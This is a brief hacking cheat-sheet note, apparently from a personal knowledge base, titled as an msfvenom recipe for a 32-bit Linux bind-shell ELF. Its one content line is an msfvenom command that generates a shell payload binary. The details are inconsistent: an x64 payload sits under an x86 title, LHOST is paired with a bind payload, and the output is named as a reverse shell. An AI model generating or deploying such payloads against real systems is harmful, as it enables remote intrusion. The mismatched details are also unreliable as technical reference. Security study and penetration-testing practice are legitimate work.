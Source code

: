 # MSFVENOM Linux Binary (.elf) 32 Bit (x86) Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=$LHOST -f elf > rev_shell.elf
```

# References
- [20221003150765](/zet/20221003150765/README.md) MSFVENOM Linux Binary (.elf) 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command
